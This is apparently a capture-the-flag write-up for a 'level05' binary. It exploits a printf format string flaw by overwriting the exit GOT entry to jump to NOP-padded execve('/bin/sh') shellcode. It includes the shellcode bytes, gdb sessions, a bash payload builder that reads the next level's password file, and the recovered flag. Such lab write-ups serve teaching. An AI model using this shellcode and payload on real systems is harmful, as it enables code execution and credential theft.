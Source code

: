 # Level05 GOT hijacking and Format String

## Overview

The binary is a simple program that converts uppercase letters in the input to lowercase and then directly executes the string with `printf(s)`, allowing a **format string attack**. However, it terminates the program with exit(0), preventing us from redirecting the flow of the program by modifying the `EIP`. Instead, we need to overwrite the **Global Offset Table** `exit` address to point to a **shellcode** stored in an environment variable (`envp`).

### Main Function

```C
int main(int argc, const char **argv, const char **envp)
{
  char s[100];

  fgets(s, 100, stdin);
  for (int i = 0; i < strlen(s); ++i )
  {
    if ( s[i] >= 'A' && s[i] <= 'Z' )  // If uppercase letter
      s[i] ^= 0x20u;                   // Convert to lowercase
  }
  printf(s);
  exit(0);
}
```

## Payload

### Shellcode

We will use a simple shellcode to execute `execve("/bin/sh", NULL, NULL)`:
```C
execve("/bin/sh", NULL, NULL) = 
"\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
```
Exporting it as an environment variable, with a `NOP` (No Operation) padding.
```bash
export SHELLCODE=$(python -c 'print "\x90" * 200 + "\x90\x90\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"')
```

#### Address

To find the address of our shellcode, we open the program with `gdb` and search for it in the environment addresses.
```bash
(gdb) break main
Breakpoint 1 at 0x8048449
(gdb) run
Breakpoint 1, 0x08048449 in main ()
(gdb) x/200s environ 
...
0xffffd80b: "SHELLCODE=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220...
0xffffd8d3: "\220\220\220\220\220\220\220\220\220\220\220\220\061\311\367\341\260\vQh//shh/bin\211\343̀"
...
```

The address of our *shellcode* is: `0xffffd8d3`.

### `exit` in the *Global Offset Table*

Next, we need the `exit` address inside the **GOT**.

```bash
(gdb) disassemble exit
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:	jmp    *0x80497e0   <========
             ^^^^^^
   ...
End of assembler dump.
```

The `exit` address in the **GOT** is `0x80497e0`.

### `printf` Arguments Offset

We need to find out in which position in the **stack** our input `buffer` is, to use it in our **format string attack**.

We use this input:
```
aaaa %x %x %x %x %x %x %x %x %x %x %x %x %x
```

#### Breakpoint after `fgets`
We set a breakpoint after receiving the input to print the `buffer` in hexadecimal.
```bash
(gdb) set disassembly-flavor intel 
(gdb) disassemble main 
Dump of assembler code for function main:
    ...
    0x08048475 <+49>:	call   0x8048350 <fgets@plt>
    0x0804847a <+54>:	mov    DWORD PTR [esp+0x8c],0x0
    ...
(gdb) break *0x0804847a
Breakpoint 1 at 0x804847a
(gdb) run
Starting program: /home/users/level05/level05 
aaaa %x %x %x %x %x %x %x %x %x %x %x %x %x

Breakpoint 1, 0x0804847a in main ()
```

##### Buffer in Hexadecimal
The buffer is stored in the `EAX` register.
```
(gdb) x/8xw $eax
0xffffd688:	0x61616161	0x20782520	0x25207825	0x78252078
0xffffd698:	0x20782520	0x25207825	0x78252078	0x20782520
```
##### Output for Comparison
```
(gdb) continue
Continuing.
aaaa 64 f7fcfac0 f7ec3b11 ffffd6af ffffd6ae 0 ffffffff ffffd734 0 [61616161 20782520 25207825 78252078]
```
Our input `buffer` is in the **10th** position in the stack.

### Payload Construction

#### Recapitulation

| Shellcode Address | Exit GOT Address |
|-------------------|------------------|
| `0xffffd8d3`      | `0x80497e0`      |
| `4294957267`      |                  |

Using the `%n` format specifier directly is impractical because it would require printing `4294957267` characters. We split this process into two steps (writing short by short with `%hn`).

```bash
0xffffd8d3 = ffff  & d8d3
0xffffd8d3 = 65535 & 55507
addr[2]    = 65535 , 55507
````

#### Splitting script
```bash
split_addr() {
    address="$1"
    half1="${address:0:4}"
    half2="${address:4}" 

    int1=$((0x$half1))
    int2=$((0x$half2))

    echo "$address splits into:"
    echo "$half1 -> $int1"
    echo "$half2 -> $int2"
    echo "n1 = $(($int2 - 8))"
    echo "n2 = $(($int1 - $int2))"
}

$ split_addr ffffd8d3
# Output:
# ffffd8d3 splits into:
# ffff -> 65535
# d8d3 -> 55507
# n1 = 55499
# n2 = 10028
```

#### Format String

```
<Exit GOT Address>
<Exit GOT Address + 2>
<addr[1] - 8>x%10$hn
<addr[0]-addr[1]>x%11$hn

0x80497e0 0x80497e2 (addr[1]-8)d%10$hn (addr[0]-addr[1])d%10$hn
```
#### Payload Script
To inject this payload, we modify our splitting script to use the obtained values.

```bash
payload() {
    address="$1"
    half1="${address:0:4}"
    half2="${address:4}" 

    int1=$((0x$half1))
    int2=$((0x$half2))

    n1=$(($int2 - 8))
    n2=$(($int1 - $int2))

    cat <(python -c "print '\xe0\x97\x04\x08\xe2\x97\x04\x08%' + str($n1) + 'x%10\$hn%' + str($n2) + 'x%11\$hn'"; echo "cat /home/users/level06/.pass") - | ./level05
}
```

## Flag

```
payload ffffd8d3
...
f7fcfac0
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```